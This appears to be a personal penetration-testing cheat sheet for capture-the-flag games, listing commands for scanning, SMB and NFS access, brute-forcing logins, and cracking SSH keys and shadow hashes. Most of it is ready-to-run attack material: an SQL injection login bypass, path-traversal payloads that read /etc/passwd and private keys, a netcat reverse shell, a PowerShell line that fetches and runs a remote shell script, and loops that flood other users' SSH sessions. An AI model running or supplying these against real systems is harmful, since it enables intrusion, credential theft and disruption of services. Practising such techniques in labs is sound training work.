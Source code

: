 # _**Some Important Notes**_

-------------------------------------------------------------------------------------------

`verison` 
`1.1.2`

-------------------------------------------------------------------------------------------


`General Nmap Scan`


	nmap -sV -A {machine IP} 


`If ping is being blocked`

	nmap -sV -A {machine IP} -Pn


------------------------------------------------------------------------------------------

`Gobuster`

	gobuster dir -u http://machineip -w wordlists


--------------------------------------------------------------------------------------------

`rust scan`


	rustscan -a {machine IP} -- -A -sC -sV

-------------------------------------------------------------------------------------------------


`enum4linux`

	./enum4linux.pl -U {machine IP} 

`or also -S be used`

	./enum4linux.pl -S {machine IP}

-----------------------------------------------------------------------------------------------

`subclient`


	smbclient -L //10.10.97.76/

	smbclient //10.10.97.76/{directory to access}

--------------------------------------------------------------------------------------------

`SUID permission`

	find / -perm -u=s -type f 2>/dev/null

`Search root flag`

	find / -name root.txt
	
	
----------------------------------------------------------------------------------------------

`Download From Reverse Shell`

`In Reverese shell`

	python3 -m http.server {port}

`In local Machine`

	wget machineip:8000/file.name


`for directory` `sometimes`

	wget --recursive --no-parent  10.10.46.113:8000/{directory}

------------------------------------------------------------------------------------------------------

`linpeas.sh`

	linpeas.sh is the best script for previlage escilation


-------------------------------------------------------------------------------------------------------

`FTP download/upload`

	get -> download file
	put -> upload file

-------------------------------------------------------------------------------------------------------

`sql injection` 
`login bypass`

	 username: ' or 1=1 --
	 password: anything

---------------------------------------------------------------------------------------------------

`netcat`

	nc -nvlp {port}

-------------------------------------------------------------------------------------------------

`PTY shell upgrade`
`Stable Reverse Shell connnection`

        python3 -c 'import pty; pty.spawn("/bin/bash")'

-------------------------------------------------------------------------------------------------
`john the ripper`
`john`

	john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.john

-----------------------------------------------------------------------------------------------------

`rsa` 
`ssh2john`

	/usr/share/john/ssh2john.py id_rsa > id_rsa.john 

`then`

       john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.john

`john for hash`
	
	john --format=raw-sha1 hash

`ssh2johnhash`

	chmod 600 id_rsa #change mode to initial RSA private key file

`for ssh connection`

	ssh -i id_rsa user@ip 


------------------------------------------------------------------------------------------------------

`hydra`


        hydra -l user -P wordlists.txt {ip} -V http-form-post "page:parameters:string"



`example:`


        hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.208.134 -V http-form-post "wp-login.php:log=^USER^&^PASS^$wp-submit:LogIn&testcookie=1:F=incorrect"


`use burpsuit for rest of info`

--------------------------------------------------------------------------------------------------------

`hydra ssh`

	hydra -l jake -P /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt 10.10.215.72 ssh -t 4 
	

-----------------------------------------------------------------------------------------------------


`hashid`

	hashid -m '{hash value}'

`hashcat`

	hashcat -m {mode value from hashid} {hash value} {/wordlists.txt}

-------------------------------------------------------------------------------------------------------------

`sqlmap`

	sqlmap -u http://10.10.71.73 --forms --tamper=space2comment --dump-all -dbms sqlite

----------------------------------------------------------------------------------------------------------------
`steghide`

	steghide extract -sf brooklyn99.jpg
	
`stegcracker`
	
	stegcracker brooklyn99.jpg  /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt

`binwalk`

	binwalk -e file.jpg


-------------------------------------------------------------------------------------------------------------------

`Network File System (NFS) `

`Know mount location` 

	 sudo showmount -e 'machine-ip'

`to mount the file`

	sudo mount -t nfs 'machine-ip':/opt/conf /tmp/mountme

`note` `/opt/conf/ is mount location` `and` `/tmp/mountme` `is where you want to save file`


-------------------------------------------------------------------------------------------------------------------------------------

`Redis`

	redis-cli ip_here  -a password_here

`command for redis interface`
	
	keys * for ls
	get 'filename' for cat

`for more`

	https://redis.io/commands
	
`mysql`

	sudo mysql -h 10.10.229.126 -u root -p

`reversing from netcat`

`on linux machine`

attacker machine 

	nc -nvlp 9578

victim machine

	nc -e /bin/bash {ip of attacker} 9578
	
`on windows machine`

attacker machine 

	stty raw -echo; (stty size; cat) | nc -lvnp 3001
	
victim machine with powershell

	IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001

Cracking Shadow Hash

`copy the file` `/etc/shadow` `and` `/etc/passwd` `to and same path` `then crack with john`

	unshadow passwd shadow > john.hash
	john john.hash --wordlist=/usr/share/wordlists/rockyou.txt 
LFI
`four directory back then accss the server system` `see the sourcecode for better view` 
	
	website/home/?page=/../../../etc/passwd
	website/home/?page=/../../../home/falcon/.ssh/id_rsa
	
Searching in Windows Machine
	
	dir flag*.txt /s /p

Make file immutable

	chattr +i filename.txt
Make mutable

	chattr -i filename.txt

Broadcast message on ssh
	
	wall messagehere

while loop to echo name on king.txt

	while true;do echo "king.txt" > /root/king.txt;done

To Jam ssh shell (Custom Exploit Own)

	while true;do wall "prakashchand72 is the king" ;done

# @cc github.com/prakashchand72


